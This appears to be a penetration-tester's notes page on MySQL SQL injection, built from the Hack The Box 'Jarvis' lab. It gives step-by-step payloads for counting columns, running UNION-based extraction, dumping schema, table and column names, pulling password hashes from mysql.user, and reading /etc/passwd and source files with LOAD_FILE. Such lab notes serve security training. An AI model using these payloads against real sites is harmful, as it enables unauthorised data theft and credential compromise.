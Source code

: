 # MySQL

#### All examples comes from Jarvis HTB room

[http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

## order by \(get number of columns\)

id=1 order by 1

```text
http://10.10.10.143/room.php?cod=2%20order%20by%207
```

We can iterate through the numbers to calculate the number of columns.  
Since the order by clause produced an error on the 8th iteration, we know that the query returns a resultset containing three columns.

![cod=1 order by 7](../../.gitbook/assets/image%20%281%29.png)

![cod=1 order by 8](../../.gitbook/assets/image%20%282%29.png)

## union select all

Now that we know how many columns are in the table, we can use this information to extract further data with a UNION statement. Unions allow us to add a second select statement to the original query, extending our capability, but each select statement must return the same number of columns.

![cod=7 UNION SELECT ALL cod=7 UNION SELECT ALL 1,user\(\),\(SELECT schema\_name FROM information\_schema.schemata limit 2,1\),database\(\),@@version,6,7](../../.gitbook/assets/image%20%2811%29.png)

## limit

limit to one result. Can iterate through the results with limit 2,1 and then 3, 1.

```text
SELECT schema_name FROM information_schema.schemata limit 2,1
```

## group\_concat

returns all output in one result.

![\(SELECT group\_concat\(schema\_name,&quot;\r\n&quot;\) FROM information\_schema.schemata\)](../../.gitbook/assets/image%20%284%29.png)

```text
(SELECT+group_concat(schema_name,"\r\n")+FROM+information_schema.schemata)
```

## Pulling Table and Columns names

![](../../.gitbook/assets/image.png)

```text
(SELECT group_concat(TABLE_NAME,":",COLUMN_NAME,"\r\n") FROM information_schema.columns where TABLE_SCHEMA = 'hotel')
```

#### Other Examples

```text
')) OR 1=2 UNION SELECT ALL 1,2,3,4,5,6,7,8,9,TABLE_NAME,11 FROM information_schema.columns
```

## Getting user hashes

![](../../.gitbook/assets/image%20%289%29.png)

```text
(SELECT group_concat(user,":",password,"\r\n") FROM mysql.user)
```

## Loading a file

![](../../.gitbook/assets/image%20%286%29.png)

```text
LOAD_FILE('/etc/passwd')
```

### TO\_Base64

```text
TO_BASE64(LOAD_FILE('/var/www/html/room.php')
```

